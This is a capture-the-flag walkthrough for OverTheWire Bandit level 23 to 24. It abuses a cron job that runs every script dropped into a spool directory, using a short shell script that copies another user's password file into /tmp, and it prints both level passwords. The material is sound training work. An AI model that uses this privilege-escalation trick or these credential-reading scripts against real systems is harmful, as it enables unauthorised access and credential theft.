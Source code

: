 ﻿
# Bandit 23 -> 24
> SSH Info: ssh -p2220 bandit23@bandit.labs.overthewire.org  
> Password: jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n


 ## Level Goal  
>A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.  
**NOTE**: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!  
**NOTE 2**: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

Let's check the cron.d directory and see what is inside for bandit24.

```
bandit22@bandit:~$ cd /etc/cron.d
bandit22@bandit:/etc/cron.d$ ls -la
total 24
drwxr-xr-x  2 root root 4096 Oct 16 14:00 .
drwxr-xr-x 88 root root 4096 Oct 16 14:00 ..
-rw-r--r--  1 root root  120 Oct 16 14:00 cronjob_bandit22
-rw-r--r--  1 root root  122 Oct 16 14:00 cronjob_bandit23
-rw-r--r--  1 root root  120 Oct 16 14:00 cronjob_bandit24
-rw-r--r--  1 root root  102 Oct  7  2017 .placeholder
bandit22@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit23 /usr/bin/cronjob_bandit24.sh  &> /dev/null
* * * * * bandit23 /usr/bin/cronjob_bandit24.sh  &> /dev/null
```
Let's see the script :

```
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 ./$i
	rm -f ./$i
    fi
done

```
All we have to do is to create our own script that reads the password from /etc/bandit_pass and place it into 
/var/spool/bandit24.

```
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/IMPORTANT.txt
```
**NOTE:** Do not forget chmod 777.

After waiting a little and reading the file we got the password.


**Password:** UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ


[Next Level](../Bandit%2024%20--%2025/README.md)
